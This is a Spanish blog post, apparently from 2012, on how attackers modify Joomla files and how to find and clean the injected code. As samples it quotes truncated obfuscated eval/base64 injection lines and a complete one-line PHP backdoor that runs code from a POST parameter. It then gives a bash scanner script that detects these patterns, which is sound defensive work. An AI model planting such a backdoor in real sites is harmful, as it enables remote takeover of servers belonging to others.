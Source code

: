 ```yaml
---
title: Como es atacado un sistema Joomla (2º Parte)
date: 2012-06-18
description: Descubre cómo los atacantes comprometen sitios Joomla, los métodos utilizados para modificar archivos críticos y cómo proteger tu sitio eliminando código malicioso y reforzando la seguridad.
author: Francisco Javier Félix Belmonte
image: '/images/blog/post/como-es-atacado-un-joomla-2-parte.webp'
category: 'blog'
tags: [joomla, ataques, cms]
isDraft: false
---
```


Si en la [1º parte](como-es-atacado-un-joomla) explicamos cuáles son los métodos de ataque de un **CMS** tipo Joomla o Wordpress, ahora comentaremos de qué forma es modificado el Joomla y cómo podemos limpiarlo.

Normalmente, los ficheros que se modifican primero son el `index.php`, pero en Joomla también son modificados:

```bash
/index.php
/includes/framework.php
/templates/xxxx/index.php
```

> Donde `xxxx` es el nombre de la plantilla que estamos usando.

Lo primero que tenemos que hacer es buscar en dichos ficheros, tanto al principio como al final, las siguientes sintaxis:

```php
eval(gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
eval(@gzinflate(base64_decode('HJ3HbuvIFkU/5zXAAXMaMkcxi2nywJxz5te33IML+BqwJFbV2XstWZKLM+n/qd5mLPtkL/5Jk60gsP/nRT.......akxUhgBILEQ1AACIJo8Z9///79938=')));
preg_replace("/.+/e","\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\x6C\x61\x74\x65\x28......hPLidw/nyu/lEf6Xcg24Mhg8Bqov4C'\x29\x29\x29\x3B",".");
```

Estas líneas han sido cortadas por los puntos suspensivos, normalmente tienen más de 1200 caracteres, pudiendo llegar a 24.000, lo que nos hace sospechar de que algo raro pasa.  
En una primera limpieza, borraríamos las líneas o sustituiríamos los ficheros modificados por los originales o la última copia no alterada.

Luego buscaríamos estos patrones en el resto de ficheros y también podemos buscar por fecha de modificación.

Hay que estar atento a los ficheros modificados, porque también pueden incluir una puerta trasera. Y aunque limpiemos los ficheros o activemos sistemas de seguridad como [**suhosin**](http://www.hardened-php.net/suhosin/index.html) o [**mod_security**](http://www.modsecurity.org/), hay que buscar este código y eliminarlo.  
(*suhosin permite limitar el uso de `eval`, pero se necesitan conocimientos porque se podría dejar de funcionar ciertas partes de nuestra web.*)

```php
<?php if ($_POST["php"]){eval(base64_decode($_POST["php"]));exit;} ?>
```

Este fragmento, con un simple `POST`, permite al atacante volver a infectarnos y es difícil de detectar en los registros del **Apache**.

Como ejemplo, he creado un pequeño script en **bash** para buscar ficheros infectados. Aunque pueden aparecer algunos falsos positivos, siempre es recomendable revisarlos manualmente:

```bash
#!/bin/bash

malware() {
    find -type f -iname *.$1 | while read file
    do
        a=$(awk 'length($0) > 1020' "$file" | grep -e "base64_decode\|preg_replace")
        if [ "$a" ]; then
            echo "$file"
        fi
        b=$(grep "\$_POST" "$file" | grep -i base64_decode | grep -i eval)
        if [ "$b" ]; then
            echo "$file"
        fi
    done
}

malware phtml
malware php
malware phps
malware php5
```